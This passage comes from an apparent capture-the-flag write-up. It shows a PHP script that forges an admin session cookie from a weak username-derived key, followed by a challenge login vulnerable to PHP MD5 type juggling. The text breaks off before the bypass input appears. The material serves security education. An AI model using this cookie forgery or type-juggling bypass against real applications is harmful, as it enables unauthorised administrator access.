 This means we can forge our cookie to be connected as admin since we only need a valid hash based on his name.
{% highlight php%}
<?php function generateKey($pKey)
{
  if ($pKey == null || strlen($pKey) == 0)
  return null;

  $s = '';
  while (strlen($s)< 1000)
  $s .= $pKey;

  $e1 = 2;
  $e2 = 3;
  $r = '';
  for ($i = 0 ; $i < 12 ; $i++)
  {
    $e2 += $e1;
    $e1 = $e2 - $e1;
    $r .= $s[$e2];
  }

  return pack('H*', md5($r));
}

$user_id="1";
$key = generateKey("admin");
$iv = mcrypt_create_iv(mcrypt_get_iv_size(MCRYPT_RIJNDAEL_256, MCRYPT_MODE_CBC), MCRYPT_RAND);
$iv_to_pass_to_decryption = base64_encode($iv);
$encrypt = base64_encode($iv . mcrypt_encrypt(MCRYPT_RIJNDAEL_256, $key, "admin", MCRYPT_MODE_CBC, $iv));
echo $user_id . '_' . $encrypt;
?>
{% endhighlight %}
The "ID" of admin was '1', after replacing our cookie with the forged one we get the following flag:

{% highlight php%}
Well done! This is the super flag : ECW{527007e99d5068963281e660d5fb5a8d}
{% endhighlight %}





## Web 175 - Magic Car
The topic of this challenge was the following text: "Notre nouveau système de réservation de covoiturage a été piraté. Le pirate a ajouté un nouveau formulaire d'authentification et a changé le mot de passe administrateur. Nous avons réussi à retrouver le code source de l'interface, mais nous ne pouvons pas récupérer le service sans les informations d'identification valides.
Aide nous à les retrouver.". We had to find a way to login without a valid username/password. The source code of the challenge was also provided.
{% highlight php%}
<?php
require_once("flag.php");
$sec_pass = "0e413229387827631581229643338212";

if (isset($_POST['username']) && isset($_POST['password'])) {
  if (md5($_POST['password'] . $_POST['username']) == $sec_pass){
      return  $success;
      [...]
?>
{% endhighlight %}
So we need to have an MD5 hash equal to 0e413229387827631581229643338212. This is a basic type juggling in PHP, because 0e0123.. is a float representation in PHP we can do the following:
